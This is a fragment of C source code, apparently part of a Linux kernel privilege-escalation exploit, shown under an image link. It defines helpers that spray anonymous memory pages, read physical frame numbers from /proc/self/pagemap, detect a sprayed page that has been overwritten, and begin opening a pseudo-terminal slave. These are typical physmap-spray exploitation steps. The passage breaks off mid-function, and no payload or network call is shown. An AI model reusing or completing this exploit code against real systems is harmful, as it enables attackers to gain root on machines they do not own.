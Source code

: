 ```c

size_t Write(int fd, void *buf, size_t nbytes) {
	size_t nb = write(fd, buf, nbytes);
	if (nb != nbytes) {
		perror("write");
		exit(-1);
	}
	return nb;
}

void physmap_spray() {
	int i;
	void *mp;
	for (i = 0; i < SPRAY_CNT; i++)
	{
        if ((mp = mmap(NULL, 0x1000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS|MAP_POPULATE, -1, 0 )) == MAP_FAILED) {
        	perror("mmap");
        	exit(-1);
        }
		sprayed_pages[i] = mp;
	}	
}

unsigned long get_pfn(void *pg) {
	unsigned long pginfo;
	int fd = Open("/proc/self/pagemap", O_RDWR);
	if (lseek(fd, ((off_t)pg >> 12) * sizeof(pginfo), SEEK_SET) < 0) {
		perror("lseek");
		exit(-1);
	}

	if (read(fd, &pginfo, sizeof(pginfo)) < 0) {
		perror("read");
		exit(-1);
	}
	close(fd);
	unsigned long pfn = pginfo & 0x7fffffffffffff;
	return pfn;
}

void list_pfn() {
	int i;
	for (i = 0; i < SPRAY_CNT; i++) {
		printf("PFN[%d] = %lx\n", i, get_pfn(sprayed_pages[i]));
	}
}

void *page_hit() {
	int i;
	for (i = 0; i < SPRAY_CNT; i++) {
		if (memcmp(sprayed_pages[i], zeropage, PAGESIZE)) {
			return sprayed_pages[i];
		}
	}
	return NULL;
}

int get_ptmx_slave(int ptmx_fd) {
	const char *pts_name;
	if (grantpt(ptmx_fd) < 0) {
		perror("grantpt");
		exit(-1);
```